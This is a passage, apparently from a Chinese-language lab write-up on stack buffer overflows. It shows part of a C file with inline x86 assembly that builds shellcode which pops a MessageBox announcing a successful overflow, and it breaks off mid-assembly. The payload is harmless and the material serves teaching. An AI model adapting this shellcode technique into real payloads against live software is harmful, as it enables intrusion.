 将代码字节以十六进制数据形式继续追加到shellcode尾。  重新编译执行。

#### createshell部分

可以再次直接打印出字节码（需要把项目设置成**release模式**，`asm()`函数内容中也应仅有汇编代码，不能有多部分）

```c
#include <stdio.h>
#include <windows.h>

/*
	CreateShellcode.c 功能：生成shellcode执行体指令码
	作者：jlcss

	生成shellcode执行体，其功能是弹出MessageBox对话框，在单击对话框“确定”按钮后程序自动退出
	MessageBox参数：　窗体句柄 0，显示文本 ^o^..堆栈成功溢出!，标题　堆栈成功溢出!，风格 0
	熟读代码及注释，在本实验的实验报告中绘制出堆栈在函数调用前后的分布状态
*/


//	加载user32.dll
int Load_user32_library()
{
	HINSTANCE h; 
	char dllname[12];
	strcpy(dllname, "user32");

	h = GetModuleHandleA(dllname); 
	if(h == NULL) 
	{ 
		h = LoadLibraryA(dllname); 
		if(h == NULL) 
		{ 
			printf("加载user32失败"); 
			return -1; 
		} 
	} 

	return 0;
}

int asm()
{
// 仅保留汇编代码，去除其它
	__asm
	{
		push ebp;		// 保护当前基址寄存器状态，基址指针入栈
		push ecx;		// 保护当前ecx寄存器状态，ecx指针入栈
		mov ebp, esp	// 改变基址指针，使其指向当前堆栈栈顶
		sub esp, 54h	// 申请54h字节空间，局部变量参数暂存此空间内
		xor ecx,ecx		// 清空ecx寄存器

		// MessageboxA显示内容 ^o^..堆栈成功溢出!
		// 利用UltraEdit等十六进制编辑工具获取显示内容的十六进制数据格式
		mov byte ptr [ebp-14h],5Eh
		mov byte ptr [ebp-13h],6Fh
		mov byte ptr [ebp-12h],5Eh
		mov byte ptr [ebp-11h],2Eh
		mov byte ptr [ebp-10h],02Eh
		mov byte ptr [ebp-0Fh],0B6h
		mov byte ptr [ebp-0Eh],0D1h
		mov byte ptr [ebp-0Dh],0D5h
		mov byte ptr [ebp-0Ch],0BBh
		mov byte ptr [ebp-0Bh],0B3h
		mov byte ptr [ebp-0Ah],0C9h
```